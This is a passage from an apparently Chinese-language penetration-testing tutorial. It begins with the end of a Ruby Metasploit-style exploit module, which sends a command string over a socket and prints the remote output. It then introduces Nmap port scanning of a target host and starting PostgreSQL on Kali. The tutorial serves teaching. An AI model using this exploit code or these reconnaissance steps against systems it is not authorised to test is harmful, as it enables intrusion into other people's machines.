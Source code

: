 ```
    sock.put("DOTI0000000A#{dtag}\n")

    # 读取输出信息
    err, out = read_output

    # 判断是 stdout 还是 stderr 然后打印出来
    (err || "").split("\n") do |line|
      print_status("stderr: #{line}")
    end
    (out || "").split("\n") do |line|
      print_status("stdout: #{line}")
    end

    handler
    disconnect
  end

...

end
```



渗透扫描在渗透攻击中，占据着非常重要的角色。黑客在攻击目标主机的时候，第一步所要做的事情，就是收集对方主机的信息，而渗透扫描，就是其中必不可少的一环。

渗透扫描，我们使用扫描神器 Nmap 对即将要渗透的目标主机的端口进行扫描。其中，Nmap (Network Mapper(网络映射器) 是一款开放源代码的网络探测和安全审核的工具。它的设计目标是快速地扫描大型网络，你也可以用它扫描单个主机。

好了，接下来，我们首先在终端中，打开 `postgresql` 服务，在 Kali 终端中，输入命令如下（由于使用 root 登录的 SSH服务，所以可以忽略 sudo）：

```
# 打开 postgresql 服务
sudo service postgresql start

```
![图片描述](../imgs/1480000480023.png-wm.png)

